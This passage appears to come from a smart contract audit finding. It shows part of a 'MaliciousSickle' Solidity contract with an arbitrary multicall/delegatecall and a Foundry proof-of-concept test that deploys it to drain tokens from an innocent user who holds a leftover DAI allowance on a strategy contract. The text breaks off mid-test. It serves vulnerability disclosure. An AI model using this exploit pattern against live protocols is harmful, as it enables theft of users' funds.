 ```solidity
    ) external payable {
        //remove transfer so we don't have to pay fee
    }

    function selfApprove(
        address token,
        address spender,
        uint256 amount
    ) external payable {
        if (IERC20(token).allowance(address(this), spender) < amount) {
            SafeTransferLib.safeApprove(token, spender, amount);
        }
    }

    function multicall(
        address[] calldata targets,
        bytes[] calldata data,
        bool[] calldata isDelegatecall,
        uint256[] calldata values
    ) external payable {
        for (uint256 i = 0; i != data.length; i++) {
            if (data[i].length == 0) {
                continue;
            }

            (bool success, bytes memory result) = isDelegatecall[i]
                ? targets[i].delegatecall(data[i])
                : targets[i].call{ value: values[i] }(data[i]);

            if (!success) {
                if (result.length == 0) revert();
                assembly {
                    revert(add(32, result), mload(result))
                }
            }
        }
    }
}
```

Test showing the contract works:

```solidity
 function test_deposit_DepositsUsingDAI_malicious(uint256 amountIn)
        public
        prank
        returns (uint256 depositedAmount)
    {
        amountIn = bound(amountIn, 500 ether, 500_000 ether);

        //funds B0B address, an innocent user that used the MasterChef strategy
        // in the past that still has an allowance on the contract
        deal(Mainnet.DAI, address(0xB0B), amountIn);
        vm.stopPrank();
        vm.prank(address(0xB0B));
        IERC20(Mainnet.DAI).approve(address(masterChefStrategy), amountIn);
        vm.startPrank(sickleOwner);

        //deploy malicious to steal funds from B0B
        MaliciousSickle maliciousSickle =
        new MaliciousSickle(sickleOwner, address(0xB0B), address(ctx.registry));

        //save prev balance
        (uint256 previousDepositedAmount,) = IMasterChef(
```